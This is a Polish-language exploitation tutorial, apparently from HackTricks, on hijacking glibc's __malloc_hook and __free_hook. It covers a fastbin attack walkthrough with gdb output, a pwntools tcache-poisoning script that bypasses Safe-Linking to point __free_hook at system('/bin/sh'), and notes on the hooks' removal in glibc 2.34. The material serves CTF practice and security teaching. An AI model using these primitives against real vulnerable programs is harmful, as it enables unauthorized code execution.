 # WWW2Exec - __malloc_hook & __free_hook

{{#include ../../banners/hacktricks-training.md}}

## **Malloc Hook**

Jak można zobaczyć na [oficjalnej stronie GNU](https://www.gnu.org/software/libc/manual/html_node/Hooks-for-Malloc.html), zmienna **`__malloc_hook`** jest wskaźnikiem wskazującym na **adres funkcji, która będzie wywoływana** za każdym razem, gdy wywoływana jest `malloc()`, **przechowywana w sekcji danych biblioteki libc**. Dlatego, jeśli ten adres zostanie nadpisany na przykład przez **One Gadget**, a `malloc` zostanie wywołane, **One Gadget zostanie wywołany**.

Aby wywołać malloc, można poczekać, aż program go wywoła, lub **wywołać `printf("%10000$c")**, co alokuje zbyt wiele bajtów, co powoduje, że `libc` wywołuje malloc, aby je alokować w stercie.

Więcej informacji o One Gadget w:

{{#ref}}
../rop-return-oriented-programing/ret2lib/one-gadget.md
{{#endref}}

> [!WARNING]
> Zauważ, że haki są **wyłączone dla GLIBC >= 2.34**. Istnieją inne techniki, które można zastosować w nowoczesnych wersjach GLIBC. Zobacz: [https://github.com/nobodyisnobody/docs/blob/main/code.execution.on.last.libc/README.md](https://github.com/nobodyisnobody/docs/blob/main/code.execution.on.last.libc/README.md).

## Free Hook

To zostało nadużyte w jednym z przykładów na stronie, nadużywając ataku na szybki bin po nadużyciu ataku na niesortowany bin:

{{#ref}}
../libc-heap/unsorted-bin-attack.md
{{#endref}}

Możliwe jest znalezienie adresu `__free_hook`, jeśli binarka ma symbole, używając następującego polecenia:
```bash
gef➤  p &__free_hook
```
[W poście](https://guyinatuxedo.github.io/41-house_of_force/bkp16_cookbook/index.html) znajdziesz przewodnik krok po kroku, jak zlokalizować adres hooka zwolnienia bez symboli. W skrócie, w funkcji free:

<pre class="language-armasm"><code class="lang-armasm">gef➤  x/20i free
0xf75dedc0 <free>: push   ebx
0xf75dedc1 <free+1>: call   0xf768f625
0xf75dedc6 <free+6>: add    ebx,0x14323a
0xf75dedcc <free+12>:  sub    esp,0x8
0xf75dedcf <free+15>:  mov    eax,DWORD PTR [ebx-0x98]
0xf75dedd5 <free+21>:  mov    ecx,DWORD PTR [esp+0x10]
<strong>0xf75dedd9 <free+25>:  mov    eax,DWORD PTR [eax]--- BREAK HERE
</strong>0xf75deddb <free+27>:  test   eax,eax ;<
0xf75deddd <free+29>:  jne    0xf75dee50 <free+144>
</code></pre>

W wspomnianym punkcie przerwania w powyższym kodzie w `$eax` znajdować się będzie adres hooka zwolnienia.

Teraz przeprowadzany jest **atak na szybkie biny**:

- Po pierwsze odkryto, że możliwe jest operowanie na szybkich **chunkach o rozmiarze 200** w lokalizacji **`__free_hook`**:
- <pre class="language-c"><code class="lang-c">gef➤  p &__free_hook
$1 = (void (**)(void *, const void *)) 0x7ff1e9e607a8 <__free_hook>
gef➤  x/60gx 0x7ff1e9e607a8 - 0x59
<strong>0x7ff1e9e6074f: 0x0000000000000000      0x0000000000000200
</strong>0x7ff1e9e6075f: 0x0000000000000000      0x0000000000000000
0x7ff1e9e6076f <list_all_lock+15>:      0x0000000000000000      0x0000000000000000
0x7ff1e9e6077f <_IO_stdfile_2_lock+15>: 0x0000000000000000      0x0000000000000000
</code></pre>
- Jeśli uda nam się uzyskać szybki chunk o rozmiarze 0x200 w tej lokalizacji, będzie możliwe nadpisanie wskaźnika funkcji, który zostanie wykonany.
- W tym celu tworzony jest nowy chunk o rozmiarze `0xfc`, a funkcja scalająca jest wywoływana z tym wskaźnikiem dwukrotnie, w ten sposób uzyskujemy wskaźnik do zwolnionego chunka o rozmiarze `0xfc*2 = 0x1f8` w szybkim binie.
- Następnie wywoływana jest funkcja edytująca w tym chunku, aby zmodyfikować adres **`fd`** tego szybkiego bina, aby wskazywał na poprzednią funkcję **`__free_hook`**.
- Potem tworzony jest chunk o rozmiarze `0x1f8`, aby odzyskać z szybkiego bina poprzedni bezużyteczny chunk, więc tworzony jest kolejny chunk o rozmiarze `0x1f8`, aby uzyskać szybki chunk w **`__free_hook`**, który jest nadpisywany adresem funkcji **`system`**.
- A na koniec chunk zawierający ciąg `/bin/sh\x00` jest zwalniany, wywołując funkcję usuwania, co uruchamia funkcję **`__free_hook`**, która wskazuje na system z `/bin/sh\x00` jako parametrem.

---

## Zatrucie Tcache i Safe-Linking (glibc 2.32 – 2.33)

glibc 2.32 wprowadził **Safe-Linking** – kontrolę integralności, która chroni *pojedyncze* listy powiązane używane przez **tcache** i szybkie biny. Zamiast przechowywać surowy wskaźnik do przodu (`fd`), ptmalloc teraz przechowuje go *z obfuskacją* za pomocą następującego makra:
```c
#define PROTECT_PTR(pos, ptr) (((size_t)(pos) >> 12) ^ (size_t)(ptr))
#define REVEAL_PTR(ptr)       PROTECT_PTR(&ptr, ptr)
```
Konsekwencje dla eksploatacji:

1. **heap leak** jest obowiązkowy – atakujący musi znać wartość czasu wykonania `chunk_addr >> 12`, aby stworzyć ważny zafałszowany wskaźnik.
2. Tylko *pełny* 8-bajtowy wskaźnik może być sfałszowany; częściowe nadpisania jednego bajtu nie przejdą sprawdzenia.

Minimalny prymityw tcache-poisoning, który nadpisuje `__free_hook` w glibc 2.32/2.33, wygląda zatem następująco:
```py
from pwn import *

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
p    = process("./vuln")

# 1. Leak a heap pointer (e.g. via UAF or show-after-free)
heap_leak   = u64(p.recvuntil(b"\n")[:6].ljust(8, b"\x00"))
heap_base   = heap_leak & ~0xfff
fd_key      = heap_base >> 12  # value used by PROTECT_PTR
log.success(f"heap @ {hex(heap_base)}")

# 2. Prepare two same-size chunks and double-free one of them
a = malloc(0x48)
b = malloc(0x48)
free(a)
free(b)
free(a)           # tcache double-free ⇒ poisoning primitive

# 3. Forge obfuscated fd that points to __free_hook
free_hook = libc.sym['__free_hook']
poison    = free_hook ^ fd_key
edit(a, p64(poison))  # overwrite fd of tcache entry

# 4. Two mallocs: the second one returns a pointer to __free_hook
malloc(0x48)           # returns chunk a
c = malloc(0x48)       # returns chunk @ __free_hook
edit(c, p64(libc.sym['system']))

# 5. Trigger
bin_sh = malloc(0x48)
edit(bin_sh, b"/bin/sh\x00")
free(bin_sh)
```
Fragment powyżej został dostosowany z ostatnich wyzwań CTF, takich jak *UIUCTF 2024 – «Rusty Pointers»* i *openECSC 2023 – «Babyheap G»*, które polegały na obejściach Safe-Linking w celu nadpisania `__free_hook`.

---

## Co zmieniło się w glibc ≥ 2.34?

Począwszy od **glibc 2.34 (sierpień 2021)**, haki alokacji `__malloc_hook`, `__realloc_hook`, `__memalign_hook` i `__free_hook` zostały **usunięte z publicznego API i nie są już wywoływane przez alokator**. Symbole zgodności są nadal eksportowane dla starszych binariów, ale ich nadpisanie nie wpływa już na kontrolę przepływu `malloc()` lub `free()`.

Praktyczna implikacja: w nowoczesnych dystrybucjach (Ubuntu 22.04+, Fedora 35+, Debian 12 itd.) musisz przejść do *innych* prymitywów przejęcia (IO-FILE, `__run_exit_handlers`, spryskiwanie vtable itd.), ponieważ nadpisania haków będą cicho zawodzić.

Jeśli nadal potrzebujesz starego zachowania do debugowania, glibc dostarcza `libc_malloc_debug.so`, które można wstępnie załadować, aby ponownie włączyć starsze haki – ale biblioteka **nie jest przeznaczona do produkcji i może zniknąć w przyszłych wydaniach**.

---

## Referencje

- [https://ir0nstone.gitbook.io/notes/types/stack/one-gadgets-and-malloc-hook](https://ir0nstone.gitbook.io/notes/types/stack/one-gadgets-and-malloc-hook)
- [https://github.com/nobodyisnobody/docs/blob/main/code.execution.on.last.libc/README.md](https://github.com/nobodyisnobody/docs/blob/main/code.execution.on.last.libc/README.md).
- Safe-Linking – Eliminacja 20-letniego prymitywu exploita malloc() (Check Point Research, 2020)
- Notatki z wydania glibc 2.34 – usunięcie haków malloc

{{#include ../../banners/hacktricks-training.md}}
